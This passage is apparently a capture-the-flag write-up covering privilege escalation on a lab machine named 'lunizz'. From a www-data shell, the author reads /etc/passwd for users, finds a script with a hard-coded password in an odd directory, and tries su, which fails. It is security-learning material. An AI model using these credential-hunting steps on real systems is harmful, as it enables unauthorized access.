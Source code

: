 # Privilege Escalation

## www-data to adam

```
www-data@lunizz:/var/www/html/whatever$ cat /etc/passwd | grep /bin/sh
adam:x:1000:1000::/home/adam:/bin/sh
mason:x:1001:1001::/home/mason:/bin/sh
```

**Found 2 users: `adam` and `mason`.**

**In the root (`/`) of the Linux filesystem, I found a directory called `proct` is owned adam, which is very peculiar:**
```
www-data@lunizz:/var/www/html/whatever$ ls -lah /
[...]
drwxr-xr-x   3 adam adam 4.0K Feb 28  2021 proct
[...]
```

```
www-data@lunizz:/var/www/html/whatever$ ls -lahR /proct
ls -lahR /proct
/proct:
total 12K
drwxr-xr-x  3 adam adam 4.0K Feb 28  2021 .
drwxr-xr-x 25 root root 4.0K Mar 25  2021 ..
drwxr-xr-x  2 adam adam 4.0K Feb 28  2021 pass

/proct/pass:
total 12K
drwxr-xr-x 2 adam adam 4.0K Feb 28  2021 .
drwxr-xr-x 3 adam adam 4.0K Feb 28  2021 ..
-rw-r--r-- 1 adam adam  273 Feb 28  2021 bcrypt_encryption.py
```

**Let's take a look at the `bcrypt_encryption.py` python script!**
```py
import bcrypt
import base64

passw = "wewillROCKYOU".encode('ascii')
b64str = base64.b64encode(passw)
hashAndSalt = bcrypt.hashpw(b64str, bcrypt.gensalt())
print(hashAndSalt)

#hashAndSalt = b'$2b$12${Redacted}'
#bcrypt.checkpw()
```

**Found `adam` password in cleartext! `wewillROCKYOU`**. Let's **Switch User** to `adam`!

```
www-data@lunizz:/var/www/html/whatever$ su adam
Password:

su: Authentication failure
```
